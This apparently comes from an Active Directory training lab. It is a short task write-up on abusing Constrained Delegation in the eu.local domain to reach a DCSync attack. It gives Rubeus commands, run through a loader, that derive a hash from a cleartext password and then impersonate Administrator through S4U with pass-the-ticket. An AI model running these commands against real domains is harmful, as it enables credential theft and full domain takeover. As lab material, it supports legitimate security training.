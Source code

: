
Task 

• Enumerate users in the eu.local domain for whom Constrained Delegation is enabled. 
• Abuse the Delegation to execute DCSync attack against eu.local.

```
echo %Pwn% hash
```

```
 C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /password:Qwerty@123 /user:storagesvc /domain:eu.local
```

```
echo %Pwn% s4u
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args
%Pwn% /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC
/impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eudc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

